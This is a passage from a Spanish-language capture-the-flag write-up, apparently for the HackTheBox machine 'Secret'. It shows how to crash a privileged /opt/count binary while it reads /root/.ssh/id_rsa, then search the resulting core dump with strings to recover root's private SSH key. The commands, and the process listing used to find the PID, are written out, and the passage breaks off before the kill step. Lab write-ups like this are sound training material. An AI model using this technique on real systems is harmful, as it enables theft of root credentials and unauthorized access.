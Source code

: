 Efectivamenteeeeee, es un objeto con data binaria, peeero juguemos con `cat` o `strings` para saber si ahí hay info relacionada con el directorio que estábamos consultando antes del crash, o sea `/root/.ssh`:

```bash
dasith@secret:/tmp/test/acamismito$ strings CoreDump | grep "ssh"
/root/.ssh/
/root/.ssh//id_rsa.pub
/root/.ssh/
```

Y como queríamos ver que objetos había dentro de esa ruta, veamos si están listadas (no su contenido) las llaves que vimos antes:

```bash
dasith@secret:/tmp/test/acamismito$ strings CoreDump | grep "id_rsa"
id_rsa
id_rsa.pub
/root/.ssh//id_rsa.pub
```

Perfeccccctooo, tenemos en el Dump la info que estábamos consultando, pero claro tenemos son los nombres de los archivos... ¿Y si volvemos a repetir el proceso del crash, pero esta vez abriendo directamente la llave privada de `root`? Entiendo que el programa la abriría (para hacer el recuento que hace) yyyy si se genera el crash en ese mismo instante quedara abieeeerta yyyyy, por lo tanto, deberíamos verla en el dump! A darle rápidamente:

## Obtenemos llave privada SSH del usuario <u>root</u> [📌](#dump-root-idrsa) {#dump-root-idrsa}

Ejecutamos binario:

```bash
dasith@secret:/tmp/test$ /opt/count 
Enter source file/directory name: /root/.ssh/id_rsa
...
```

Enviamos proceso a segundo plano:

```bash
#CTRL + Z
Save results a file? [y/N]: ^Z
[1]+  Stopped                 /opt/count
```

Buscamos el **PID** del proceso:

```bash
dasith@secret:/tmp/test$ ps auxwww | grep count
root         859  0.0  0.1 235676  7456 ?        Ssl  06:11   0:01 /usr/lib/accountsservice/accounts-daemon
dasith    246295  0.0  0.0   2488   592 pts/2    T    23:29   0:00 /opt/count
dasith    246297  0.0  0.0   6432   736 pts/2    S+   23:29   0:00 grep --color=auto count
```

Matamos el proceso:
